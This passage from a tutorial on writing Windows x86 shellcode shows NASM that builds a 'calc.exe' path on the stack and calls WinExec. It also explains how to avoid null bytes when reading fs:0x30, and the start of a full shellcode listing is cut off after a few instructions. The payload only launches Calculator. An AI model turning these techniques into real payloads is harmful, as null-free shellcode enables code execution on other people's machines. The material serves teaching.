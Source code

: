 # <a name="call_function"> Call the function
What's left is to call *WinExec*{: style="color: LightGreen"} with the appropriate arguments: 
```nasm
xor edx, edx
push edx		; null termination
push 6578652eh
push 636c6163h
push 5c32336dh
push 65747379h
push 535c7377h
push 6f646e69h
push 575c3a43h
mov esi, esp   ; esi -> "C:\Windows\System32\calc.exe"

push 10  ; window state SW_SHOWDEFAULT
push esi ; "C:\Windows\System32\calc.exe"
call eax ; WinExec
```

# <a name="write_shellcode"></a> Write the shellcode
Now that you're familiar with the basic principles of a Windows shellcode it's time to write it. It's not much different than the code snippets I already showed, just have to glue them together, but with minor differences to avoid null bytes. I used [flat assembler](https://flatassembler.net/) to test my code.

The instruction "mov ebx, fs:0x30" contains three null bytes. A way to avoid this is to write it as:
```nasm
xor esi, esi	; esi = 0
mov ebx, [fs:30h + esi]
```
![null_bytes](/images/windows_shellcode/null_bytes.png)

The whole assembly for the shellcode is below:

```nasm
format PE console
use32
entry start

  start:
        push eax ; Save all registers
        push ebx
        push ecx
        push edx
        push esi
        push edi
        push ebp

	; Establish a new stack frame
	push ebp
	mov ebp, esp

	sub esp, 18h 			; Allocate memory on stack for local variables

	; push the function name on the stack
	xor esi, esi
```